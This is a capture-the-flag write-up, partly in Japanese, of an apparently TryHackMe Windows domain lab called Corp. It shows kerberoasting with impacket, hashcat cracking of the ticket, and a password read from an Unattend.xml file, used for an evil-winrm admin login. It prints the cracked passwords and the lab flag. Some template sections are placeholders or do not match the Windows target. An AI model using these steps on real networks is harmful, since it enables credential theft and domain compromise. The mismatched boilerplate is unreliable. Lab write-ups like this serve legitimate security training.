

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | kerberoasting |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)

```

## Nmap
```

### Not implemented (or log not saved)

```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

https://happycamper84.medium.com/corp-tryhackme-walkthrough-dd9fd4f50bdf

https://muchipopo.com/ctf/tryhackme-corp/

Powershellでhistoryを確認する方法

エクスプローラーで下記パスを入力する

```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Service Principal Name内のすべてのアカウントを抽出する

```
setspn -T medin -Q  */* 
```

```
PS C:\Windows\system32> setspn -T medin -Q */*
Ldap Error(0x51 -- Server Down): ldap_connect
Failed to retrieve DN for domain "medin" : 0x00000051
Warning: No valid targets specified, reverting to current domain.
CN=OMEGA,OU=Domain Controllers,DC=corp,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
        ldap/omega.corp.local/ForestDnsZones.corp.local
        ldap/omega.corp.local/DomainDnsZones.corp.local
        TERMSRV/OMEGA
        TERMSRV/omega.corp.local
        DNS/omega.corp.local
        GC/omega.corp.local/corp.local
        RestrictedKrbHost/omega.corp.local
        RestrictedKrbHost/OMEGA
        RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        HOST/OMEGA/CORP
        HOST/omega.corp.local/CORP
        HOST/OMEGA
        HOST/omega.corp.local
        HOST/omega.corp.local/corp.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
        ldap/OMEGA/CORP
        ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        ldap/omega.corp.local/CORP
        ldap/OMEGA
        ldap/omega.corp.local
        ldap/omega.corp.local/corp.local
CN=krbtgt,CN=Users,DC=corp,DC=local
        kadmin/changepw
CN=fela,CN=Users,DC=corp,DC=local
        HTTP/fela
        HOST/fela@corp.local
        HTTP/fela@corp.local
```

```
python /opt/impacket/examples/GetUserSPNs.py -request corp.local/dark -dc-ip $ip -outputfile hash.txt
```

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Password:
ServicePrincipalName  Name  MemberOf                                    PasswordLastSet             LastLogon                   Delegation
--------------------  ----  ------------------------------------------  --------------------------  --------------------------  ----------
HTTP/fela             fela  CN=Domain Admins,CN=Users,DC=corp,DC=local  2019-10-10 02:54:40.905204  2019-10-11 12:39:12.562404
HOST/fela@corp.local  fela  CN=Domain Admins,CN=Users,DC=corp,DC=local  2019-10-10 02:54:40.905204  2019-10-11 12:39:12.562404
HTTP/fela@corp.local  fela  CN=Domain Admins,CN=Users,DC=corp,DC=local  2019-10-10 02:54:40.905204  2019-10-11 12:39:12.562404

[-] CCache file is not found. Skipping...
```

$krb5tgs$23$なので、13100を指定する

```
❌[1:34][CPU:1][MEM:22][IP:10.11.87.75][/home/n0z0/work/thm/Corp]
🐉 > hashcat -h | grep -i "kerb"
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```

```
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

```
✅[1:24][CPU:1][MEM:20][IP:10.11.87.75][/home/n0z0/work/thm/Corp]
🐉 > hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 Microsoft Surface (R) Edition, 2777/5618 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*fela$CORP.LOCAL$corp.local/fela*$1308e56e79fd09f1adbacbd240d4d037$af45ba77063bc67d512262393cb0ff01dc0127f58600bded5b1902d75b7d784f111cb33fec4aa41933e0ae7df787935b3cda3f90826f6547eee90663296ede6c756097d325e69a703302895b8a44424871b449bd629d506966151d0a2c322cd9db1fa19062762f321ea13ad7065683cc540b9c206c3440676b64873bb5f1acde98d1de6622320722aca52183e2982f823072526ca367c4fb5d1142ccf52e591f11a72571e2a6e9c1c1ad562252d365768fc3f558cb3d654d202e28d196c35267a67a1264e0c0027870c57fbf7eba8e09e458d2ccc56396bf33582400947935cee842ef5ed70401e7949919d989c255e1f92840d78e75591e8bf391ece11f573b8417566af8b186715c3b9c30f627ff4cc687d8b3d96200d44b99a89182ff2ad09821b39b84c4fb564003a634f8caee7d75df72a173e60ba12d0b8201e94c23ae4f6ee21a04a7df3503066f5918aaed1bc0a893533302d9be07919f09cd9213ef659b0800e2f0fbf2e5589c8218ba5c9eba8059ffe2c9b1337c3daa28448addbffe4e527c8d0aa511ab62c4d2d6dd3633d6f35c25443212d3af9c17d938d270ef01b241e14a79cd9656335b0dbc70c610e4fa63808532e45a49c7cc07ad4ab5482a265ed60b6245e48ca8eb52ce5a2013665942695ba8c3a7c76708725a57bc56a292243e39459b5c7d7e5b30e09c39a61fd82b90bd1f76e6a1ee3e2edbe2879a43e7a1400d75fdceb69f32b313a13b0c6b12f44678da0013867610ff989d05fda458627babd394be28922cd80a652391d232812875bb796f39cd3b1444a5aa4bc379851528efdf37a46ed0f0642a55a3f75afe05db47451555b4abcd5135444b03fc2e24dd82ab523162052688d38bfb725af1a15e773fcdd4d95251119912b678a1031f51a3f570493dfaaaccfc59276a9011c1141c39e4ab913bdd654428f16b955eaf5845068b52a3ce7ea00d703be5769ae16936ec6abef28182fce6a1343434cad8580fdf85599c78fd8e5748257f2b391ff83453f3d8eeb2220bdffd36ee6971405a7a34306b2fe8c5e671e7bed41187ed273d0a86cb2be4e16c51cfbdee9923649ce5738e247af6e656be136ba9cf454901cd5b996b74bc58e018efadff445655e8d1109c8dbe471f6d131574c0181ea5cdccde0f03e0c1a4dd10fc6f26d48838152094f66ada50b67366bfd3178563826dc1fc7b1ce72c972c3c27599865d75b5387f3263ec087e25a483293b2ac016cc3c7c1:rubenF124

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*fela$CORP.LOCAL$corp.local/fela*$1308e...c3c7c1
Time.Started.....: Wed Dec  4 01:29:42 2024 (2 secs)
Time.Estimated...: Wed Dec  4 01:29:44 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2076.2 kH/s (1.25ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4136960/14344384 (28.84%)
Rejected.........: 0/4136960 (0.00%)
Restore.Point....: 4128768/14344384 (28.78%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: ruddqoo -> rsqme1

Started: Wed Dec  4 01:29:41 2024
Stopped: Wed Dec  4 01:29:46 2024
```

取得したログイン情報で、ログインすると、デスクトップにflagがある


*Caption: Screenshot captured during corp attack workflow (step 1).*

Windows初期構築に使われるパスワードが保管される場所

base64でエンコードされてる

```
PS C:\Windows\system32> Get-Content C:\Windows\Panther\Unattend\Unattended.xml
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
PS C:\Windows\system32>
```

デコードして、administratorに接続する

```
evil-winrm -i $ip -u administrator -p tqjJpEX9Qv8ybKI3yHcc\=L\!5e\(\!wW\;\$T
```

```
✅[1:56][CPU:1][MEM:20][IP:10.11.87.75][/home/n0z0/tools/windows]
🐉 > evil-winrm -i $ip -u administrator -p tqjJpEX9Qv8ybKI3yHcc\=L\!5e\(\!wW\;\$T

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir

    Directory: C:\Users\Administrator\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/9/2019   7:25 AM                netcat-win32-1.12
d-----        10/9/2019   6:45 AM                Security
-a----        10/9/2019   7:13 AM         111892 netcat-win32-1.12.zip

cd*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
d*Evil-WinRM* PS C:\Users\Administrator> dir

    Directory: C:\Users\Administrator

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        10/8/2019   5:44 PM                3D Objects
d-r---        10/8/2019   5:44 PM                Contacts
d-r---       10/11/2019   3:29 AM                Desktop
d-r---        10/9/2019   7:13 AM                Documents
d-r---        10/9/2019   6:10 PM                Downloads
d-r---        10/8/2019   5:44 PM                Favorites
d-r---        10/8/2019   5:44 PM                Links
d-r---        10/8/2019   5:44 PM                Music
d-r---        10/8/2019   5:44 PM                Pictures
d-r---        10/8/2019   5:44 PM                Saved Games
d-r---        10/8/2019   5:44 PM                Searches
d-r---        10/8/2019   5:44 PM                Videos

*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> dir

    Directory: C:\Users\Administrator\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/10/2019  11:01 AM             29 flag.txt

*Evil-WinRM* PS C:\Users\Administrator\desktop> type flag.txt
THM{g00d_j0b_SYS4DM1n_M4s73R}

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
ldap/omega.corp.local/ForestDnsZones.corp.local
ldap/omega.corp.local/DomainDnsZones.corp.local
TERMSRV/OMEGA
TERMSRV/omega.corp.local
DNS/omega.corp.local
GC/omega.corp.local/corp.local
RestrictedKrbHost/omega.corp.local
RestrictedKrbHost/OMEGA
RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
HOST/OMEGA/CORP
HOST/omega.corp.local/CORP
HOST/OMEGA
HOST/omega.corp.local
HOST/omega.corp.local/corp.local
E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
ldap/OMEGA/CORP
ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
ldap/omega.corp.local/CORP
ldap/OMEGA
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- netcat
- sudo
- grep
- find
- python
- impacket
- evil-winrm
- GTFOBins
